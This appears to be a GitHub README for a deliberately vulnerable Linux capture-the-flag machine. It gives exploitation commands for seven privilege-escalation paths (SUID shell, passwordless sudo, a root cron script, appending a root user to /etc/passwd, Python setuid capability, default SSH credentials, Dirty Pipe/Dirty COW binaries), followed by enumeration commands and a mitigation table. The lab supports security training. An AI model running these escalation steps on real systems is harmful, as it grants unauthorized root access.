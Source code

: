 # Linux Privilege Escalation CTF Machine

![CTF Level](https://img.shields.io/badge/Level-Medium-orange)
![Platform](https://img.shields.io/badge/Platform-Linux-lightgrey)
![Category](https://img.shields.io/badge/Category-PrivEsc-blue)

A deliberately vulnerable Linux machine with multiple privilege escalation vectors. Perfect for practicing penetration testing skills in a controlled environment.

## Table of Contents
1. [Machine Overview](#machine-overview)
2. [Privilege Escalation Methods](#privilege-escalation-methods)
   - [1. SUID Binary](#1-suid-binary)
   - [2. Sudo Misconfiguration](#2-sudo-misconfiguration)
   - [3. Cron Job](#3-cron-job)
   - [4. Writable /etc/passwd](#4-writable-etcpasswd)
   - [5. Capabilities](#5-capabilities)
   - [6. SSH Backdoor](#6-ssh-backdoor)
   - [7. Kernel Exploits](#7-kernel-exploits)
3. [Setup Instructions](#setup-instructions)
4. [Exploitation Walkthrough](#exploitation-walkthrough)
5. [Mitigation Guide](#mitigation-guide)

## Machine Overview

**Difficulty**: Medium  
**Learning Objectives**:
- Identify multiple privilege escalation vectors
- Practice Linux system enumeration
- Understand security misconfigurations
- Learn proper mitigation techniques

**Default Credentials**:
- User: `hacker`
- Password: `Password123!`

## Privilege Escalation Methods

### 1. SUID Binary
**Location**: `/usr/bin/suid-sh`  
**Vulnerability**: Custom SUID binary that executes bash with root privileges  
**Exploitation**:
```bash
/usr/bin/suid-sh
```
Why it works: The binary has the SUID bit set and is owned by root.

### 2. Sudo Misconfiguration

Location: /etc/sudoers
Vulnerability: All users can run any command as root without a password

#### Exploitation:
```bash
sudo su
```
Why it works: The NOPASSWD: ALL directive in sudoers file.

### 3. Cron Job

Location: /etc/cron.d/backdoor
Vulnerability: World-writable script executed by root every minute

#### Exploitation:
```Bash
echo 'chmod 4755 /bin/bash' > /opt/backdoor.sh
# Wait 1 minute
/bin/bash -p
```
Why it works: Cron runs as root and executes our malicious script.

### 4. Writable /etc/passwd

Location: /etc/passwd
Vulnerability: World-writable system file

#### Exploitation:
```Bash
openssl passwd -1 -salt abc Password123
echo 'root2:$1$abc$TKhNXK5ZJBXvJ9XqFn1nq.:0:0:root:/root:/bin/bash' >> /etc/passwd
su root2
```
Why it works: We can add a new root user.

### 5. Capabilities

Location: Python binary
Vulnerability: cap_setuid capability set

#### Exploitation:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
Why it works: Python can elevate privileges due to its capabilities.

### 6. SSH Backdoor

Location: SSH service
Vulnerability: Pre-configured backdoor account
#### Exploitation:
```Bash
ssh hacker@<IP>
```
Why it works: Weak credentials and allowed SSH access.
### 7. Kernel Exploits

Location: /tmp/dirtypipe and /tmp/dirtycow
Vulnerability: Unpatched kernel vulnerabilities

#### Exploitation:
```Bash
# If kernel is vulnerable:
/tmp/dirtypipe
# or
/tmp/dirtycow
```
Why it works: Kernel vulnerabilities allow privilege escalation.
#### Setup Instructions
#### Using Vagrant
```bash
vagrant up
vagrant ssh
```
#### Exploitation Walkthrough

    Initial Access:
    ```Bash
    ssh hacker@<IP>  # Password: Password123!
    ```
### Enumeration:
```Bash
find / -perm -4000 2>/dev/null      # Check SUID binaries
sudo -l                             # Check sudo permissions
cat /etc/crontab                    # Check cron jobs
ls -la /etc/passwd                  # Check file permissions
getcap -r / 2>/dev/null             # Check capabilities
uname -a                            # Check kernel version
```
### Choose an Exploit Method from the list above.

#### Mitigation Guide
~~~
Vulnerability	         | Secure Configuration
SUID Binary	            | chmod u-s /usr/bin/suid-sh
Sudo Misconfig	         | Remove NOPASSWD: ALL from /etc/sudoers
Cron Job	               | chmod 700 /opt/backdoor.sh
/etc/passwd	          | chmod 644 /etc/passwd
Capabilities	         | setcap -r $(which python3)
SSH Backdoor	         | userdel -r hacker
Kernel	Update system: | apt update && apt upgrade
